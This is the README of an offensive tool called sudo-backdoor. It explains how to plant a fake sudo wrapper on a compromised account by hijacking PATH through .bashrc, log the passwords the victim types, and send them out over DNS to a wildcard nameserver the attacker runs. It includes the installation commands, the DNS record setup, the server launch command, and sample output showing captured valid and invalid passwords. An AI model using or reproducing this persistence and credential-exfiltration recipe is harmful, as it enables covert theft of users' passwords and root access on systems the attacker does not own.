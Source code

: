 # sudo-backdoor
Wraps around `sudo` and logs users credentials, for those annoying times when you get a shell/file write on a sudoers account without knowing their password.

# Installation
## 1. Installing the implant
Append the following line to the target user's `.bashrc` (or their appropriate shell's rc file) by running the following command:

`$ echo "export PATH=~/.payload:$PATH" >> ~/.bashrc`

Then, create `~/.payload/sudo` and paste the code found in this repository's `sudo` in there.

*Don't forget to make the bash script executable by issuing the following command:*

`$ chmod a+x ~/.payload/sudo`

Obviously you might have to adapt this installation recipe to fit the user's shell. If they are using zsh, then install to ~/.zshrc, etc.

## 2. Running the DNS Server

### 2.1 Setting up the nameserver
In your DNS settings, add a new wildcard NS (Name Server) record attached to the `de` subdomain, pointing to an A record directed at your server.

Example: 

```
| Record | Host | Value              | TTL   |
|--------+------+--------------------+-------|
| A      | ns1  | 10.0.0.2           | 1 min |
| NS     | *.de | ns1.yourdomain.com | 1 min |
```

### 2.2 Running the server
Then, on your server at 10.0.0.2, download the `dns-server.py` script and execute it as root.

Example: `# python dns-server.py`

Once it is started, when users affected by the sudo implant enter their credentials in the `sudo` prompt, you will receive their credentials in the `dns-server.py` stdout.

# Usage
Proof of concept: `testuser` is the target with password `passw0rd`.

## Targeted system
```
[testuser:~]$ echo $PATH
/home/testuser/.payload:/usr/local/sbin:/usr/local/bin:/usr/bin
[testuser:~]$ sudo id
[sudo] password for testuser:                → A wrong password is inserted here
Sorry, try again.
[sudo] password for testuser:                → The correct password is inserted here
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log) 
[testuser:~]$ sudo id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log) 
```

`sudo` remembers the cached credentials and does not prompt the second time around, as expected.

## DNS Server output
```
[root:~]# python dns-server.py
[06-26-17 11:06:42] Started DNS server on 0.0.0.0:53.
[06-26-17 11:11:57] #0  173.239.230.96  INVALID testuser        somewr0ng!pa55word
[06-26-17 11:08:11] #0  173.239.230.96  VALID   testuser        passw0rd
```
 
# Notes
Long passwords are also handled, example:
``` 
[06-27-17 11:47:39] #0  173.239.230.96  VALID   testuser        ThisIsAVeryLongPasswordThatShou
[06-27-17 11:47:39] #1  173.239.230.96  VALID   testuser        ldNotBeInterruptedImproperly
```
Probably due to DNS round-robin, DNS queries sometimes do not reach the server in the proper order. Use the first column to identify the order.

# Licenses
`dns-server.py` is a fork of https://github.com/pathes/fakedns by @pathes
